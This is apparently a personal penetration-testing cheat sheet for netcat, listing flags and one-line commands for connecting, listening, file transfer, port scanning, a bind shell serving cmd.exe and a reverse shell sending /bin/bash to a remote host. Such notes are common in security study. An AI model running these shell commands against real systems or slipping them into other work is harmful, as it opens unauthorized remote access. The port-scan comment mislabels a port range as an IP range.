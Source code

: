 # ncat 

* ***connect to tcp/udp***

```shell
nc -nv 192.168.10.1 22 
```
screen shot 

* ***command flags***
```
-l: Listen mode 
-L: Listen harder ( WINDOWS VERSION ).
-u: UDP 
-p: Local port 
-e: Program to execute after connection occurs ( cmd.exe , /bin/bash .....)
-n: Don’t perform DNS lookups on names of machines on the other side
-z: Zero-I/O mode (Don’t send any data, just emit a packet without payload)
-wN: Timeout for connects, waits for N seconds after closure of STDIN. 
-v: verbose mode .
-vv: Be very verbose .
```

* ***Listening on a tcp/udp***

```shell
nc -nvlp 1337

```
scrren shot 

* ***File Transfer***

```shell
nc -nvlp 1337 > out_file.txt
```
```shell
nc -nv 10.10.10.10 1337 < ~/home/mastermind/in_file.txt
```

screen shots 

* ***bind shell*** 
```shell
nc -lnvp 1337 -e cmd.exe
```
```shell
nc -nv target_ip port 
```

* ***Reverse Shell***
```shell
nc -lnvp 1337 
```
```shell
nc -nv 10.10.10.10 1337 -e /bin/bash
```
* ***Port Scanner***

```shell
nc -nvz -w3 10.10.10.10 100-120  # 100-120 ip range
```
screnn shot 
